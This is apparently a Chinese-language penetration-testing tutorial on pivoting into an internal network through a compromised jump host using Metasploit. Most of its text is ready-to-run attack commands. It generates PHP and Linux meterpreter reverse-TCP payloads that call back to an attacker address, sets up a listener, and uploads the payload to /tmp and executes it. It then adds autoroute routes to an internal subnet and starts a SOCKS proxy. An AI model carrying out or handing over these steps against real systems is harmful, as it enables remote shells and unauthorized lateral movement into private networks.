 # Socks代理

## 通过msf代理

### 一、拿到跳板机的shell

#### 1、getshell

利用跳板机部署的web应用获得shell。

#### 2、反弹shell

利用msf生成木马

```bash
msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.105 lport=9999 R > 1.php
msfvenom -p linux/x64/meterpreter_reverse_tcp lhost=192.168.1.105 lport=9999 -f elf > 1.elf

#同时新开一个终端，打开msf的监听
msfconsole -q
msf6 > use multi/handler
msf6 exploit(multi/handler) > set lhost 192.168.1.105
msf6 exploit(multi/handler) > set lport 9999
msf6 exploit(multi/handler) > run -j
```

此处也可根据操作系统不同更换不同的shell。

**上传到跳板机的tmp目录下**（利用第一步的shell，中国蚁剑）

```bash
# 赋予执行权限
chmod 777 1.elf
# 执行程序
./1.elf
```

此时在攻击机的msf监听器可以收到`meterpreter`的`session`

### 二、建立socks代理

**进入`meterpreter`的`session`**

```msf
#设置路由的网段
meterpreter > run autoroute -s 192.168.22.0/24
meterpreter > run autoroute -p
meterpreter > background
```

**使用`msf`的`socks5`模块启动`socks`代理服务**

```
msf6 > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > run
```
